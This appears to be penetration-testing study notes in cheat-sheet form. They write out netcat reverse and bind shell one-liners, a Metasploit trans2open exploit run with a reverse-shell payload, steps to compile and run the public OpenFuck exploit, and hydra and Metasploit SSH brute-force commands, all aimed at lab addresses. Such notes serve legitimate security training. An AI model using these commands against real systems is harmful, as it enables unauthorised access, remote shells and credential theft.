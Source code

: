 ## Exploitation

Reverse Shell : victim connect to attackers port

attacker (10.10.10.11)
```
nc -lnvp 4444
```

victim (10.10.10.10)
```
nc 10.10.10.11 4444 -e /bin/bash
```

Bind Shell : attacker connect to victims port

attacker (10.10.10.11)
```
nc 10.10.10.10 4444
```

victim (10.10.10.10)
```
nc -lnvp 4444 -e /bin/bash
```

Non-staged Payload : sends exploit shellcode all at once (ie. windows/meterpreter_reverse_tcp)

Staged Payload : sends payload in stages (ie. windows/meterpreter/reverse_tcp)

### via Metasploit

```
msfconsole 

search trans2open
use exploit/linux/samba/trans2open
set RHOSTS 10.10.10.10
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST tun0
run
```

### via Manual

[exploit link](https://github.com/heltonWernik/OpenLuck)

```
git clone https://github.com/heltonWernik/OpenFuck.git

apt-get install libssl-dev

gcc -o OpenFuck OpenFuck.c -lcrypto

./OpenFuck 0x6a 10.10.10.10 443 -c 40
```

### brute force

metasploit
```
msfconsole

search ssh login
use auxiliary/scanner/ssh_login
set RHOSTS 10.10.10.10
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
set VERBOSE true
run
```

hydra
```
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 22 -t 4 -V
```

### password spraying

burpsuite

Intercept on -> Send to Intruder -> Positions -> Clear -> Add your parameter -> Payloads -> Paste Payload -> Start attack
